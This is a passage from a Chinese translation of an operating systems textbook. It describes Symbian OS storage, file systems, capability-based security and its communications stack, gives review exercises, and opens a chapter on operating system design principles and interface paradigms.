Symbian操作系统使用可移动存储器的很多共同性来实现对它们的支持。每种可移动存储器通常具有如下特点：
1)所有的设备必须支持插入和移除。
2)所有的可移动存储器能够“热”拔，也就是正在使用时被拔下。
3)每种介质都能报告它自己的容量。
4)必须拒绝不适配的卡。
5)每种卡都需要电源。
为了支持可移动存储器，Symbian操作系统提供控制每种支持卡片的软件控制器。这些控制器和设备驱动工作在一起，这在软件层面上也是一样的。当一张卡插入时，就创建了一个套接字对象，该套接字对象构成数据流动过程中的通道。为了适应卡状态的改变，Symbian操作系统提供了一系列的当状态改变发生时的事件。设备驱动像活动对象一样被配置用来监听这些事件并作出反应。
和所有面向用户的操作系统一样，Symbian操作系统有一个文件系统。下面我们来对其进行描述。
就文件系统和存储而言，手机操作系统有很多和台式机操作系统相同的需求。多数的这类系统都实现在32位硬件平台上；允许用户以任意的名字命名文件；大量存储文件，需要一定的组织结构。这意味着我们需要一个分层的、基于目录的文件系统。而且，手机操作系统设计人员有很多文件系统可以选择时，一个很重要的特性影响了他们的选择：大多数手机存储介质可以和Windows环境共享使用。
如果手机系统中没有可移动存储器件，则任一种文件系统都是可以使用的。但是，对于使用闪存作为存储的系统来说，还有特殊的情况需要考虑。存储块一般都是512字节到2048字节，但闪存不能直接修改数据记录，而需要先擦除数据，然后才能进行写入。另外，擦除的操作很不精确，每次擦除不能只擦除一个字节，而必须擦除整个块。擦除速度相对比较慢。
为了顺应这些特征，并且使闪存工作效率最高，需要文件系统能够把写操作分散到整个器件，以及解决较长的擦除时间问题。一个基本的概念是，当文件被更新时，文件系统会将文件的更新副本写入空闲的存储块并修改文件指针，而在有空闲时间时再进行旧数据块的回收操作。
最早的闪存文件系统之一是微软公司在20世纪90年代初为MS-DOS使用的FFS2文件系统。在1994年PCMCIA工业组织通过了关于闪存的闪存传输层（Flash Translation Layer）标准后，闪存器件可以被识别为一个FAT文件系统。Linux同时也专门为闪存设计了JFFS（Journaling Flash File System）和YAFFS（Yet Another Flash Filing System）两种文件系统。
但是，移动平台必须和其他计算机共享存储介质，这就要求必须有一定的兼容措施。FAT文件系统是最常用到的。而且，由于与FAT-32相比，FAT-16有着较小的分配表以及长文件的简化用法，所以FAT-16的使用更为广泛。
作为智能手机操作系统，Symban OS至少需要实现FAT-16文件系统。实际上，它的确支持FAT-16，并在大多数存储介质上使用。
但是，Symbian操作系统文件服务器是建立在一个类似Linux的虚拟文件系统的抽象层上的。面向对象技术允许多种文件系统的实现代码作为文件服务器的插件使用，于是允许同时使用多种文件系统。多种文件系统的实现代码可以在一个文件服务器中共存。
Symbian操作系统也支持NFS和SMB文件系统。
智能手机安全是通用计算机安全的一个有趣的变体。有很多侧面特征使得智能手机安全更富有挑战。Symbian操作系统在设计选择上有很多与通用计算平台和其他智能手机平台不同的地方。在这里我们只关注和文件系统安全有关的特征，其他方面将在下一节中进行讨论。
考虑到智能手机的环境，它们属于单用户设备，不需要在使用前进行用户认证。一个手机用户可以执行应用程序、拨打电话、访问网络，全都不需要用户认证。在这样的环境下，使用基于权限的安全措施是很有挑战性的，因为缺乏认证机制意味着只有一组权限可以使用，即所有人使用同样的一组权限。
除了权限，安全经常受益于其他形式的信息。在Symbian操作系统版本9或更新的版本中，应用程序在安装时就已被指定了其行为能力（授予一个应用程序权限的机制将在下一节涉及）。一个应用程序在请求执行某项行为时，其行为能力集将被检查。如果这种访问在行为能力集中存在，访问被许可，否则被拒绝。行为能力检查会造成一些系统开销——每次涉及到访问资源的系统调用都需要进行检查——但检查一个文件的所有者是否匹配的开销会更长。这个折中在Symbian操作系统中效果很好。
Symbian操作系统中还有一些其他形式的文件安全。在Symbian操作系统的存储器件中有特定的区域，需要有特定权限的应用程序才能访问。这种特定的权限只将安装程序赋予了应用程序。这样做的效果是，新安装的应用程序在安装完成后即被保护，不受任何非系统的访问（意味着非系统的恶意程序，如病毒，不能感染已经安装的程序）。另外，文件系统预留了专门保存应用程序产生的特殊数据的区域（这被称作数据锁定，见下一节）。
对Symbian操作系统来说，权限的使用和文件所有者在保护文件访问上的效果是相当的。
智能手机提供的环境很难保证安全。像我们之前提到的，它们属于单用户设备，不需要在使用基本功能前进行用户认证。更复杂的功能（如应用软件安装）需要授权，但不需认证。然而，智能手机上执行的复杂操作系统中，有很多途径进行数据的交换（以及执行程序）。在这样的环境进行安全防护变得很复杂。
Symbian操作系统很好地体现了这一安全难度。用户期望基于Symbian操作系统的智能手机允许不经认证即可任意使用——没有登录和身份鉴别。但是，你肯定经历过，一个和Symbian操作系统同样复杂的操作系统很容易受到病毒、蠕虫和其他恶意软件的影响。在Symbian操作系统版本9以前的版本中，操作系统提供了一个守门人式的安全功能：系统询问用户是否允许安装每一个应用程序。这种设计的思维是，只有用户自己安装的程序会造成系统毁坏，一个被告知的用户会知道他所要安装的哪些软件是恶意软件。用户会理智地使用它们。
守门人式设计有很多优点。例如：一个新的没有用户自己安装的应用程序的智能手机是一个可以无故障运行的系统。只安装用户认为不是恶意软件的程序，即可保证系统的安全。这种设计的问题是，用户并不总是知道安装一个应用程序的全部后果。存在伪装成有用的应用程序的病毒，在提供有用功能的同时静默地安装恶意代码。普通用户无法验证所有软件的可信度。
Symbian操作系统版本9的信任验证机制提升到了一个新设计的平台上。这个版本的操作系统保留原有的守门人式机制，但是在用户之外提供了对安装软件进行验证的机制。每个软件开发者现在需要负责通过数字签名技术来验证一个软件是由其编写的。不是所有的软件都必须有这样的验证，只有需要访问特定系统资源的软件需要。当一个应用软件需要数字签名时，需要如下几个步骤：
1)软件开发者需要从可信的第三方获得一个厂商ID，这些可信的第三方由Symbian来进行鉴定。
2)当一个开发者开发了一个程序包并希望发布时，他必须将其提交到可信的第三方进行验证。开发者提交其厂商ID、应用程序以及该应用程序访问系统的方式列表。
3)可信第三方验证所提供的访问类型列表是完全的，而且没有其他类型的访问发生。如果该可信第三方可以进行此验证，该软件即由可信第三方进行签名。这意味着安装包中会包含一些特殊的信息，详细地描述该软件会对Symbian操作系统做出什么操作。
4)该安装包被送回到软件开发人员处，并可以发放给用户。需要注意的是，这个方法依赖于应用程序如何访问系统资源。在Symbian操作系统中，应用程序必须拥有访问一个资源的能力，才会允许使用相应的资源。这种行为能力的机制建立在Symbian操作系统的内核中。当一个进程被创建时，该进程的进程控制块的一部分用来记录该进程被授予的权限。当进程试图使用它不能使用的权限时，该访问将被内核阻止。
这个看起来复杂的机制使得我们可以在Symbian操作系统中建立一个自动的守门人式机制，来验证要安装的软件。安装过程检查安装包中的标识。如果该标识是有效的，该应用程序被授予的权限将记录下来，同时可以在执行时通过内核的检查。
图12-3中的图描述了Symbian操作系统版本9中的信任关系。需要注意的是，系统中内置了多个信任等级。有些应用软件不访问任何系统资源，故而也不需要签名。一个例子是只在屏幕上显示内容的简单应用。这些应用软件不被也不需被信任。下一个信任级别是用户级签名应用程序级。这些应用程序只被授予其需要的权限。第三个信任等级由系统服务组成。同用户级应用程序一样，这些服务只需要特定的权限以便完成其任务。在一个如同Symbian操作系统的微内核体系结构中，这些服务运行在用户态，并像用户程序一样被信任。最后，有一类程序需要系统的完全信任。这组程序拥有修改整个系统的能力，并由内核代码组成。
在这个系统中有若干个方面看起来值得质疑。例如，这样复杂的机制真的有必要吗（尤其是需要花费金钱来制作的情况下）？结论是肯定的：Symbian签名系统代替用户来对软件进行完整性验证，并且该验证必须被执行。这一机制看起来可能会带来开发上的难度。是否每次在真实物理设备上进行测试都需要一个新的签名的安装包？为了解决这个问题，Symbian操作系统识别开发人员的特殊签名。一个开发人员必须获得一个有时效限制（通常是6个月）的证书和一个特殊的智能手机，即可使用自己的数字证书来创建安装包。
除了这样的守门人式机制外，Symbian操作系统版本9同时采用数据锁定（Data Caging）技术，来组织特定目录下的数据。比如，可执行代码只存在一个目录中，而该目录只对软件安装程序可写。另外，应用程序只能在一个目录中进行写操作，它们各自的数据不能被其他程序访问。
Symbian操作系统按照特殊的标准设计，并使用客户机/服务器机制和基于栈的配置，以事件驱动型的通信为特色。
Symbian操作系统的通信系统基础结构建立在基本构件之上。考虑如图12-4中所示的一个非常通用的模式。考虑把这个图作为一个可组织模型的起点。在这个栈的底层是物理设备，以一定方式链接到计算机。这个设备可以是集成在通信设备中的手机调制解调器或是一个蓝牙无线电装置。在此，我们不关心底层的硬件实现，而是把这个物理设备当做一个会以合适的方式响应软件发出的命令的抽象设备。
下一层，即我们需要关心的第一层，是设备驱动层。我们已经指出了设备驱动的结构；这一层的软件直接通过LDD和PDD结构与硬件配合工作。这一层的软件是硬件相关的，每个新型号的硬件设备都需要一个软件的设备驱动为其衔接。不同的硬件需要不同的设备驱动，但它们都为上层提供同样的接口。协议层期望无论什么样的硬件都具有相同的接口。
下一层就是协议实现层，包含了Symbian操作系统所支持的各种协议的实现。这些实现承担了下层的设备驱动接口，并向上面的应用层提供了一个单一、统一的接口。这就是提供诸如蓝牙和TCP/IP协议的各种协议的部分。
最后，应用程序层是最高的一层。该层包含了需要利用通信基础结构的应用程序。应用程序不清楚通信是怎样实现的，但是，该应用程序需要通知操作系统它需要使用哪个具体设备。一旦设备就位，应用程序不直接访问设备，而是依赖协议实现层的API来驱动真实硬件。
Symbian操作系统的一个更详细的结构如图12-5所示。这个图基于图12-4的通用结构，原图中的层被细分为Symbian操作系统中使用的可操作单元。
1.物理设备
首先需要注意的是，物理设备层没有变化。如我们之前所述，Symbian操作系统并不直接控制硬件。所以，它兼容所有符合该层的API设计的硬件，但不需指定硬件本身是如何设计和建造的。这一点对Symbian操作系统和其开发人员都有益处。通过将硬件看作抽象结构并通过这一抽象进行通信，Symbian操作系统的设计人员保证了Symbian操作系统可以广泛地兼容现有设备，同时适应未来的硬件。
2.设备驱动层
如图12-5所示，设备驱动层被分为两层。如我们之前所述，PPD层通过硬件端口直接与硬件设备进行交互。而LDD层与协议实现层交互，实现了Symbian操作系统中与硬件相关的策略。这些策略包括输入输出缓冲、中断机制和流控制。
3.协议实现层
在图12-5中，协议实现层分为了若干子层。在协议实现层中使用了四种模块，列举在下面：
·CSY模块：协议实现层最底层是通信服务，即CSY模块。一个CSY模块直接通过设备驱动程序的PDD部分与硬件通信，实现了协议的许多底层特征。例如，一个协议可能需要向硬件设备传递原始数据，或者需要在传输过程中使用7位或8位的缓存。这些工作模式会被CSY模块处理。
·TSY模块：电话中包含了很大一部分通信基础结构，这些功能需要由特殊的模块来进行实现。电话服务（TSY）模块实现了这些功能。基本的TSY可能在很多的硬件上支持标准的TSY，例如拨打和切断电话。更高级的TSY模块可以支持更高级的硬件，比如支持GSM功能。
·PRT模块：协议实现层的核心模块是协议模块（PRT模块）。该模块由服务器用来实现具体的协议。一个服务器在试图使用协议的时候创建一个PRT模块的实例。例如，TCPIP.PRT模块中实现了TCP/IP相关的协议。蓝牙协议在BT.PRT模块中实现。
·MTM：由于Symbian操作系统被设计用来处理短信息，设计人员专门为处理的所有类型的短信息建立了相应的机制，而这些专门的模块称为信息类型模块（MTM模块）。短信息处理包括多个方面，MTM模块需要处理所有这些需求。用户界面类MTM模块需要实现多种供用户查看和处理短信息的方式，包括如何阅读短信息，如何被告知短信息发送进度等。客户端MTM模块处理寻址、创建、回复短信息；而服务器端MTM模块需要实现面向服务器的相关短信息管理功能，如目录管理、特定信息的管理等。
根据所使用通信类型的不同，这些模块以不同的方式彼此依赖。例如，实现使用蓝牙的协议，我们只需要物理器件上层的PRT模块即可。某些IrDA协议也是如此。而基于PPP的TCP/IP实现则需要使用PRT模块、TSY模块和CSY模块；不基于PPP的TCP/IP协议则不需要TSY模块和CSY模块，但是其PRT模块需要直接连接到网络设备驱动上。
4.结构模块化
基于模块化的思想在这样一个栈式的模型实现中是很有用的。在这个分层的设计中，从例子中可以看出，抽象带来的优势是很明显的。考虑TCP/IP协议的实现。一个PPP连接既可以直接使用CSY模块，也可以选择GSM或普通调制解调器的TSY实现，后者实际底层仍由CSY模块来实现。未来新的电话技术出现后，当前的结构仍然可以起作用，我们只需要为新的电话实现添加一个TSY模块。另外，细调TCP/IP协议栈不需要修改任何其依赖的模块，只需要简单地调整TCP/IP PRT模块。这样广泛的模块化意味着在已有结构上很容易添加新代码、丢弃旧代码，当前代码的修改不会对整个系统带来巨大的变化，也不需要大量的重新安装。
最后，图12-5在应用层添加了子层。应用程序通过CSY模块和协议实现层中的协议模块进行交互。虽然我们可以认为这些模块属于协议实现层的一部分，但更清晰的表示是，这些模块在协助应用程序进行操作。例如，在使用红外接口将短信息发送到手机的过程中，应用程序会在应用程序中使用IRCOMM CSY模块，通过协议实现层的短信息实现模块来完成。同样，在这样一个过程中，模块化带来了很大的优势，应用程序可以关注实现其擅长的功能，而不是通信过程。
Symbian操作系统是一个为智能手机平台设计的面向对象的操作系统。它的微内核设计只提供了很小的纳核，只实现了最快和最简单的内核功能。Symbian操作系统通过客户机/服务器的体系结构，将对系统资源的访问分配给用户态的服务器。Symbian操作系统虽然是为智能手机设计的，但其也拥有很多通用操作系统的特性：进程和线程、内存管理、文件系统支持、丰富的通信支持。同时，Symbian操作系统也实现了一些独特的特性，比如，活动对象使等待外部事件更为迅速、没有虚拟内存使得内存管理更富有挑战性、支持面向对象的设备驱动程序采用双层抽象结构。
1.对下列的每一个服务，描述其在如Symbian操作系统这样的微内核操作系统中，是在用户态还是内核态执行。
·调度线程的执行。
·打印一个文档。
·应答蓝牙搜索信号。
·管理线程对屏幕的访问。
·在短信息到达时发出声音。
·中断当前执行并接听电话。
2.列举微内核设计带来的三个效率提升。
3.列举微内核设计带来的三个效率问题。
4.Symbian操作系统将其内核分割为纳核和Sym-bian内核两部分。如动态内存管理之类的服务被认为过于复杂而不能进入纳核。描述动态内存管理中的复杂模块，解释为什么不能将其放进微内核。
5.我们讨论过，活动对象使得I/O操作更有效率。你认为应用程序是否能够同时使用多个活动对象？系统在多个I/O事件发生时会如何响应？
6.Symbian操作系统中的安全是否关注软件安装和应用程序的Symbian签名？这是否足够安全？是否会有某个场景，应用程序可以不必安装即被运行？（提示：考虑手机数据输入的所有可能方式）
7.在Symbian操作系统中，广泛应用了基于服务的对共享资源的保护。列举三种在微内核环境下，这种方式协调资源的优势。思考这些优势对不同体系结构的影响。
在过去的12章中，我们讨论了许多话题并且分析了许多与操作系统相关的概念和实例。但是研究现有的操作系统不同于设计一个新的操作系统。在本章中，我们将简述操作系统设计人员在设计与实现一个新系统时必须要考虑的某些问题和权衡。
在系统设计方面，关于什么是好，什么是坏，存在着一定数量的民间传说在操作系统界流传，但是令人吃惊的是这些民间传说很少被记录下来。最重要的一本书可能是Fred Brooks的经典著作The Mythical Man Month（中文译名《人月神话》）。在这本书中，作者讲述了他在设计与实现IBM OS/360系统时的经历。该书的20周年纪念版修订了某些素材并且新增加了4章（Brooks,1995）。
有关操作系统设计的三篇经典论文是“Hints for Computer System Design”（计算机系统设计的忠告，Lampson,1984）、“On Building Systems that Will Fail”（论建造将要失败的系统，Corbató,1991）和“End-to-End Arguments in System Design”（系统设计中端到端的论据，Saltzer等人，1984）。与Brooks的著作一样，这三篇论文都极其出色地经历了岁月的考验，其中的大多数真知灼见在今天仍然像文章首次发表时一样有效。
本章吸收了这些资料来源，另外加上了作者作为三个系统的设计者或合作设计者的个人经历，这三个系统是：Amoeba（Tanenbaum等人，1990）、MINIX（Tanenbaum和Woodhull,1997）和Globe（Van Steen等人，1999a）。由于操作系统设计人员在设计操作系统的最优方法上没有达成共识，因此与前面各章相比，本章更加主观，也无疑更具有争议。
操作系统设计与其说是精确的科学，不如说是一个工程项目。设置清晰的目标并且满足这些目标非常困难。我们将从这些观点开始讨论。
为了设计一个成功的操作系统，设计人员对于需要什么必须有清晰的思路。缺乏目标将使随后的决策非常难于做出。为了明确这一点，看一看两种程序设计语言PL/I和C会有所启发。PL/I是IBM公司在20世纪60年代设计的，因为在当时必须支持FORTRAN和COBOL是一件令人讨厌的事，同时令人尴尬的是，学术界背地里嚷嚷着Algol比这两种语言都要好。所以IBM设立了一个委员会来创作一种语言，该语言力图满足所有人的需要，这种语言就是PL/1。它具有一些FORTRAN的特点、一些COBOL的特点和一些Algol的特点。但是该语言失败了，因为它缺乏统一的洞察力。它只是彼此互相竞争的功能特性的大杂烩，并且过于笨重而不能有效地编译。
现在考察C语言。它是一个人（Dennis Ritchie）为了一个目的（系统程序设计）而设计的。C语言在所有的方面都取得了巨大的成功，因为Ritchie知道他需要什么，不需要什么。结果，在面世几十年之后，C语言仍然在广泛使用。对于需要什么要有一个清晰的洞察力是至关重要的。
操作系统设计人员需要什么？很明显，不同的系统会有所不同，嵌入式系统就不同于服务器系统。然而，对于通用的操作系统而言，需要留心4个基本的要素：
1)定义抽象概念。
2)提供基本操作。
3)确保隔离。
4)管理硬件。
下面将描述这些要素。
一个操作系统最重要但可能最困难的任务是定义正确的抽象概念。有一些抽象概念，例如进程和文件，多年以前就已经提出来了，似乎比较显而易见。其他一些抽象概念，例如线程，还比较新鲜，就不那么成熟了。例如，如果一个多线程的进程有一个线程由于等待键盘输入而阻塞，那么由这个进程通过调用fork函数创建的新进程是否也包含一个等待键盘输入的线程？其他的抽象概念涉及同步、信号、内存模型、I/O的建模以及其他领域。
每一个抽象概念可以采用具体数据结构的形式实例化。用户可以创建进程、文件、信号量等。基本操作则处理这些数据结构。例如，用户可以读写文件。基本操作以系统调用的形式实现。从用户的观点来看，操作系统的核心是由抽象概念和其上的基本操作所构成的，而基本操作则可通过系统调用加以利用。
由于多个用户可以同时登录到一台计算机，操作系统需要提供机制将他们隔离。一个用户不可以干扰另一个用户。为了保护的目的，进程概念广泛地用于将资源集合在一起。文件和其他数据结构一般也是受保护的。确保每个用户只能在授权的数据上执行授权的操作是系统设计的关键目标。然而，用户还希望共享数据和资源，因此隔离必须是选择性的并且要在用户的控制之下。这就使问题更加复杂化了。电子邮件程序不应该弄坏Web浏览器程序，即使只有一个用户，不同的进程也应该隔离开来。
与这一要点密切相关的是需要隔离故障。如果系统的某一部分崩溃（最为一般的是一个用户进程崩溃），不应该使系统的其余部分随之崩溃。系统设计应该确保系统的不同部分良好地相互隔离。从理想的角度看，操作系统的各部分也应该相互隔离，以便使故障独立。
最后，操作系统必须管理硬件。特别地，它必须处理所有低级芯片，例如中断控制器和总线控制器。它还必须提供一个框架，从而使设备驱动程序得以管理更大规模的I/O设备，例如磁盘、打印机和显示器。
摩尔定律表明计算机硬件每十年改进100倍，但却没有一个定律宣称操作系统每十年改进100倍。甚至没有人能够宣称操作系统每十年在某种程度上会有所改善。事实上，可以举出事例，一些操作系统在很多重要的方面（例如可靠性）比20世纪70年代的UNIX版本7还要糟糕。
为什么会这样？大部分责任常常归咎于惯性和渴望向后兼容，不能坚持良好的设计原则也是问题的根源。但是还不止这些。操作系统在特定的方面根本不同于计算机商店以49美元销售的小型应用程序。我们下面就看一看使设计一个操作系统比设计一个应用程序要更加困难的8个问题。
第一，操作系统已经成为极其庞大的程序。没有一个人能够坐在一台PC机前在几个月内匆匆地完成一个严肃的操作系统。UNIX的所有当前版本都超过了300万行代码，Windows Vista有超过500万行的内核代码（全部代码超过7亿行）。没有一个人能够理解300万到500万行代码，更不必说7亿行代码。当你拥有一件产品，如果没有一名设计师能够有望完全理解它时，结果经常远没有达到最优也就不难预料了。
操作系统不是世界上最复杂的系统，例如，航空母舰就要复杂得多，但是航空母舰能够更好地分成相互隔离的部分。设计航空母舰上的卫生间的人员根本不必关心雷达系统，这两个子系统没有什么相互作用。而在操作系统中，文件系统经常以意外的和无法预料的方式与内存系统相互作用。
第二，操作系统必须处理并发。系统中往往存在多个用户和多个设备同时处于活动状态。管理并发自然要比管理单一的顺序活动复杂得多。竞争条件和死锁只是出现的问题中的两个。
第三，操作系统必须处理可能有敌意的用户——想要干扰系统的用户或者做不允许做的事情（例如偷窃另一个用户的文件）的用户。操作系统需要采取措施阻止这些用户不正当的行为，而字处理程序和照片编辑程序就不存在这样的问题。
第四，尽管事实上并非所有的用户都相信其他用户，但是许多用户确实希望与经过选择的其他用户共享他们的信息和资源。操作系统必须使其成为可能，但是要以确保怀有恶意的用户不能妨害的方式。而应用程序就不会面对类似这样的挑战。
第五，操作系统已经问世很长时间了。UNIX已经历了四分之一个世纪，Windows面世也已经超过二十年并且还没有消退的迹象。因此，设计人员必须思考硬件和应用程序在遥远的未来可能会发生的变化，并且考虑为这样的变化做怎样的准备。紧密地局限于世界的一个特定视野的系统通常不会存世太久。
第六，操作系统设计人员对于他们的系统将怎样被人使用实际上并没有确切的概念，所以他们需要提供相当程度的通用性。UNIX和Windows在设计时都没有把电子邮件或Web浏览器放在心上，然而许多运行这些系统的计算机却很少做其他的事情。人们在告诉一名轮船设计师建造一艘轮船时，却会指明他想要的是渔船、游船还是战舰，并且当产品生产出来之后鲜有人会改变产品的用途。
第七，现代操作系统一般被设计成可移植的，这意味着它们必须运行在多个硬件平台上。它们还必须支持上千个I/O设备，所有这些I/O设备都是独立设计的，彼此之间没有关系。这样的差异可能会导致问题，一个例子是操作系统需要运行在小端机器和大端机器上。第二个例子经常在MS-DOS下看到，用户试图安装一块声卡和一个调制解调器，而它们使用了相同的I/O端口或者中断请求线。除了操作系统以外，很少有程序必须处理由于硬件部件冲突而导致的这类问题。
第八，也是最后一个问题，是经常需要与某个从前的操作系统保持向后兼容。以前的那个系统可能在字长、文件名或者其他方面有所限制，而在设计人员现在看来这些限制都是过时的，但是却必须坚持。这就像让一家工厂转而去生产下一年的汽车而不是这一年的汽车的同时，继续全力地去生产这一年的汽车。
到现在读者应该清楚，编写一个现代操作系统并不容易。但是人们要从何处开始呢？可能最好的起点是考虑操作系统提供的接口。操作系统提供了一组抽象，主要是数据类型（例如文件）以及其上的操作（例如read）。它们合起来形成了对用户的接口。注意，在这一上下文中操作系统的用户是指编写使用系统调用的代码的程序员，而不是运行应用程序的人员。
除了主要的系统调用接口，大多数操作系统还具有另外的接口。例如，某些程序员需要编写插入到操作系统中的设备驱动程序。这些驱动程序可以看到操作系统的某些功能特性并且能够发出某些过程调用。这些功能特性和调用也定义了接口，但是与应用程序员看到的接口完全不同。如果一个系统要取得成功，所有这些接口都必须仔细地设计。
有没有指导接口设计的原则？我们认为是有的。简而言之，原则就是简单、完备和能够有效地实现。
原则1：简单
一个简单的接口更加易于理解并且更加易于以无差错的方式实现。所有的系统设计人员都应该牢记法国先驱飞行家和作家Antoine de St.Exupéry的著名格言：
不是当没有东西可以再添加，而是当没有东西可以再裁减时，才能达到尽善尽美。
这一原则说的是少比多好，至少在操作系统本身中是这样。这一原则的另一种说法是KISS原则：Keep It Simple,Stupid（保持简朴无华）。
原则2：完备
当然，接口必须能够做用户需要做的一切事情，也就是说，它必须是完备的。这使我们想起了另一条著名的格言，Albert Einstein（阿尔伯特・爱因斯坦）说过：
万事都应该尽可能简单，但是不能过于简单。
换言之，操作系统应该不多不少准确地做它需要做的事情。如果用户需要存储数据，它就必须提供存储数据的机制；如果用户需要与其他用户通信，操作系统就必须提供通信机制；如此等等。1991年，CTSS和MULTICS的设计者之一Fernando Corbató在他的图灵奖演说中，将简单和完备的概念结合起来并且指出：
首先，重要的是强调简单和精练的价值，因为复杂容易导致增加困难并且产生错误，正如我们已经看到的那样。我对精练的定义是以机制的最少化和清晰度的最大化实现指定的功能。
此处重要的思想是机制的最少化（minimum of mechanism）。换言之，每一个特性、功能和系统调用都应该尽自己的本分。它应该做一件事情并且把它做好。当设计小组的一名成员提议扩充一个系统调用或者添加某些新的特性时，其他成员应该问这样的问题：“如果我们省去它会不会发生可怕的事情？”如果回答是：“不会，但是有人可能会在某一天发现这一特性十分有用”，那么请将其放在用户级的库中，而不是操作系统中，尽管这样做可能会使速度慢一些。并不是所有的特性都要比高速飞行的子弹还要快。目标是保持Corbató所说的机制的最少化。
让读者简略地看一看我亲身经历的两个例子：MINIX（Tanenbaum和Woodhull，2006）和Amoeba（Tanenbaum等人，1990）。实际上，MINIX具有三个系统调用：send、receive和sendrec。系统是作为一组进程的集合而构造的，内存管理、文件系统以及每个设备驱动程序都是单独的可调度的进程。作为首要的近似，内核所做的全部工作只是调度进程以及处理在进程之间传递的消息。因此，只需要两个系统调用：send发送一条消息，而receive接收一条消息。第三个调用sendrec只是为了效率的原因而做的优化，它使得仅用一次内核陷阱就可以发送一条消息并且请求应答。其他的一切事情都是通过请求某些其他进程（例如文件系统进程或磁盘驱动程序）做相应的工作而完成的。
Amoeba甚至更加简单。它仅有一个系统调用：执行远程过程调用。该调用发送一条消息并且等待一个应答。它在本质上与MINIX的sendrec相同。其他的一切都建立在这一调用的基础上。
原则3：效率
第三个指导方针是实现的效率。如果一个功能特性或者系统调用不能够有效地实现，或许就不值得包含它。对于程序员来说，一个系统调用的代价有多大也应该在直觉上是显而易见的。例如，UNIX程序员会认为lseek系统调用比read系统调用要代价低廉，因为前者只是在内存中修改一个指针，而后者则要执行磁盘I/O。如果直觉的代价是错误的，程序员就会写出效率差的程序。
一旦确定了目标，就可以开始设计了。一个良好的起点是考虑客户将怎样审视该系统。最为重要的问题之一是如何将系统的所有功能特性良好地结合在一起，并且展现出经常所说的体系结构一致性（architectural coherence）。在这方面，重要的是区分两种类型的操作系统“客户”。一方面，是用户，他们与应用程序打交道；另一方面，是程序员，他们编写应用程序。前者主要涉及GUI，后者主要涉及系统调用接口。如果打算拥有遍及整个系统的单一GUI，就像在Macintosh中那样，设计应该在此处开始。然而，如果打算支持许多可能的GUI，就像在UNIX中那样，那么就应该首先设计系统调用接口。首先设计GUI本质上是自顶向下的设计。这时的问题是GUI要拥有什么功能特性，用户将怎样与它打交道，以及为了支持它应该怎样设计系统。例如，如果大多数程序在屏幕上显示图标然后等待用户在其上点击，这暗示着GUI应该采用事件驱动模型，并且操作系统或许也应该采用事件驱动模型。另一方面，如果屏幕主要被文本窗口占据，那么进程从键盘读取输入的模型可能会更好。
首先设计系统调用接口是自底向上的设计。此时的问题是程序员通常需要哪些种类的功能特性。实际上，并不是需要许多特别的功能特性才能支持一个GUI。例如，UNIX窗口系统X只是一个读写键盘、鼠标和屏幕的大的C程序。X是在UNIX问世很久以后才开发的，但是并不要求对操作系统做很多修改就可以使它工作。这一经历验证了这样的事实：UNIX是十分完备的。
1.用户界面范型
对于GUI级的接口和系统调用接口而言，最重要的方面是有一个良好的范型（有时称为隐喻），以提供观察接口的方法。台式计算机的许多GUI使用我们在第5章讨论过的WIMP范型。该范型在遍及接口的各处使用定点-点击、定点-双击、拖动以及其他术语，以提供总体上的体系结构一致性。对于应用程序常常还有额外的要求，例如要有一个具有文件（FILE）、编辑（EDIT）以及其他条目的菜单栏，每个条目具有某些众所周知的菜单项。这样，熟悉一个程序的用户就能够很快地学会另一个程序。
然而，WIMP用户界面并不是惟一可能的用户界面。某些掌上型计算机使用一种程式化的手写界面。专用的多媒体设备可能使用像VCR一样的界面。当然，语音输入具有完全不同的范型。重要的不是选择这么多的范型，而是存在一个单一的统领一切的范型统一整个用户界面。
不管选择什么范型，重要的是所有应用程序都要使用它。因此，系统设计者需要提供库和工具包给应用程序开发人员，使他们能够访问产生一致的外观与感觉的过程。用户界面设计非常重要，但它并不是本书的主题，所以我们现在要退回到操作系统接口的主题上。
2.执行范型
体系结构一致性不但在用户层面是重要的，在系统调用接口层面也同样重要。在这里区分执行范型和数据范型常常是有益的，所以我们将讨论两者，我们以前者为开始。
两种执行范型被广泛接受：算法范型和事件驱动范型。算法范型（algorithmic paradigm）基于这样的思想：启动一个程序是为了执行某个功能，而该功能是事先知道的或者是从其参数获知的。该功能可能是编译一个程序、编制工资册，或者是将一架飞机飞到旧金山。基本逻辑被硬接线到代码当中，而程序则时常发出系统调用获取用户输入、获得操作系统服务等。图13-1a中概括了这一方法。
另一种执行范型是图13-1b所示的事件驱动范型（event-driven paradigm）。在这里程序执行某种初始化（例如通过显示某个屏幕），然后等待操作系统告诉它第一个事件。事件经常是键盘敲击或鼠标移动。这一设计对于高度交互式的程序是十分有益的。
这些做事情的每一种方法造就了其特有的程序设计风格。在算法范型中，算法位居中心而操作系统被看作是服务提供者。在事件驱动范型中，操作系统同样提供服务，但是这一角色与作为用户行为的协调者和被进程处理的事件的生产者相比就没那么重要了。
3.数据范型
执行范型并不是操作系统导出的惟一范型，同等重要的范型是数据范型。这里关键的问题是系统结构和设备如何展现给程序员。在早期的FORTRAN批处理系统中，所有一切都是作为连续的磁带而建立模型。用于读入的卡片组被看作输入磁带，用于穿孔的卡片组被看作输出磁带，并且打印机输出被看作输出磁带。磁盘文件也被看作磁带。对一个文件的随机访问是可能的，只要将磁带倒带到对应的文件并且再次读取就可以了。
使用作业控制卡片可以这样来实现映射：
MOUNT(TAPE08,REEL781)
RUN(INPUT,MYDATA,OUTPUT,PUNCH,TAPE08)
第一张卡片指示操作员去从磁带架上取得磁带卷781，并且将其安装在磁带驱动器8上。第二张卡片指示操作系统运行刚刚编译的FORTRAN程序，映射INPUT（意指卡片阅读机）到逻辑磁带1，映射磁盘文件MYDATA到逻辑磁带2，映射打印机（称为OUTPUT）到逻辑磁带3，映射卡片穿孔机（称为PUNCH）到逻辑磁带4，并且映射物理磁带驱动器8到逻辑磁带5。
FORTRAN具有读写逻辑磁带的语法。通过读逻辑磁带1，程序获得卡片输入。通过写逻辑磁带3，输出随后将会出现在打印机上。通过读逻辑磁带5，磁带卷781将被读入，如此等等。注意，磁带概念只是集成卡片阅读机、打印机、穿孔机、磁盘文件以及磁带的一个范型。在这个例子中，只有逻辑磁带5是一个物理磁带，其余的都是普通的（假脱机）磁盘文件。这只是一个原始的范型，但它却是正确方向上的一个开端。
后来，UNIX问世了，它采用“所有一切都是文件”的模型进一步发展了这一思想。使用这一范型，所有I/O设备都被看作是文件，并且可以像普通文件一样打开和操作。C语句
fd1=open("file1",O_RDWR);
fd2=open("/dev/tty",O_RDWR);
